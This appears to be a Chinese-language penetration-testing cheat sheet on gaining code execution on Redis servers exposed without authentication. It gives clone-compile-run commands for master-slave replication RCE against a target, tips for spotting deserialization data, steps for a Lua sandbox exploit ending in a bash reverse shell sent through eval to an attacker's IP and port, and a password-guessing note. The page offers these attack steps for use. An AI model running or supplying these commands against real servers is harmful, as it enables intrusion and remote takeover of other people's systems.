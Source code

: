

#### 二、Redis-RCE
利用用前提是获取redis访问权限,也就是基于redis未授权访问

###### 1.redis主从同步rce
>使用范围redis 4.x-5.0.5

在Redis 4.x之后，Redis新增了模块功能，通过外部拓展，可以在redis中实现一个新的Redis命令
```bash
git clone https://github.com/Ridter/redis-rce.git
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git

# 编译so文件
cd RedisModules-ExecuteCommand/
make

# 运行sss
python redis-rce.py -r <目标地址>  -L <本机地址> -f module.so
# 执行成功后可以选择生成一个交互的shell，或者重新反弹一个shell
```


###### 2.反序列化rce
当遇到 redis 服务器写文件无法 getshell，可以查看redis数据是否符合序列化数据的特征。
```
jackson：关注 json 对象是不是数组，第一个元素看起来像不像类名，例如["com.blue.bean.User",xxx]
fastjson：关注有没有 @type 字段
jdk：首先看 value 是不是 base64，如果是解码后看里面有没有 java 包名
```
https://mp.weixin.qq.com/s/ungjainqdPhA_dDOOMKn4Q



###### 3.lua rce
>适用于高权限运行低版本redis的lua虚拟机，写文件失败时进行尝试

使用`info server` 和 `eval “return _VERSION” 0 `命令可以查看当前redis版本和编译信息。

exp
```
https://github.com/QAX-A-Team/redis_lua_exploit/
```

修改`redis_lua.py`中目标地址为靶机的地址和端口

<img src="http://image.xpshuai.cn/20200526092701919_308935847.png"/>

运行exp

执行成功后就可以进行命令执行了，这里反弹shell
```bash
eval "tonumber('/bin/bash -i >& /dev/tcp/192.168.0.105/5555 0>&1', 8)" 0
```


#### 三、redis密码爆破

1.使用redis-cli连接，使用-a参数指定密码操作。
```bash
redir-cli -h 192.168.0.100 -a admin123
# 这个好像没这么实用感觉，也许可以写成脚本批量跑
```
